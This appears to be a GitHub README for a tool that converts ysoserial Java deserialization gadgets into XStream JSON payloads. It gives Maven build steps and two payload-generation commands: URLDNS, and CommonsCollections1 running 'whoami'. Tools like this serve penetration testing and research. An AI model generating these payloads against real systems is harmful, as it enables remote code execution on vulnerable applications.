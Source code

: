 
# ysoserial gadgets in XStream json format


## Description

The repo contains ysoserial gadgets, get transformed into XStream serialization but in __json__ format.

The json equivalent of the ysoserial gadgets can be generated by running the files after compiling it.

The original ysoserial repo : https://github.com/frohoff/ysoserial

The repo conatining xstream gadgets in xml format : https://github.com/chudyPB/XStream-Gadgets

In XStream, json functionality can be implemented using jettison. More information can be seen in https://x-stream.github.io/json-tutorial.html.

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Generating Payload

To create URLDNS  equivalent json payload:

```mvn exec:java  -Dexec.mainClass="ysoserial.payloads.URLDNS" -Dexec.args="https://google.com"```

To create Collections1 equivalent json payload:

```mvn exec:java  -Dexec.mainClass="ysoserial.payloads.CommonsCollections1" -Dexec.args="whoami"```


